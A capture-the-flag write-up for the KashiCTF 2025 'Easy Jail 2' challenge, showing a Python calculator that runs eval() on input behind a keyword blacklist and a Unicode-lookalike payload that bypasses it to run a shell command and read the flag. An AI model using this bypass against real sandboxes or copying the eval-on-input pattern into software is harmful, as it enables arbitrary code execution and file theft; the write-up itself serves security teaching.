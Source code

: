 ```yaml
---
title: "Easy Jail 2"
description: "I made a completely secure calculator this time."
pubDate: 2025-02-27
ctf: "KashiCTF 2025"
category: "misc"
author: "sealldev"
section: "CTFs"
image: "images/25-kashi/icon.png"
---
```




```python
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

BLACKLIST = ["open", "input", "eval", "exec", "import", "getattr", "sh", "builtins", "global"]
def calc(op):
	try :
		res = eval(op)
	except Exception as e:
		print(e)
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		if any(bad in inp for bad in BLACKLIST) :
			print("Are you tying to hack me !!!!!")
		else :
			calc(inp)

if __name__ == '__main__':
	main()
```

Looking at the jail (compared to the previous) restricts words (such as import), our previous solution (`__import__('os').system('cat ../flag.txt')`) no longer worked due to `import` being a blocked word.

Looking at the [PyJail material online](https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass) we can use a unicode bypass.

I make the following payload: `__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')`

Which then returns the flag from the remote:

```
$ nc kashictf.iitbhucybersec.in 56261
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```

Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`
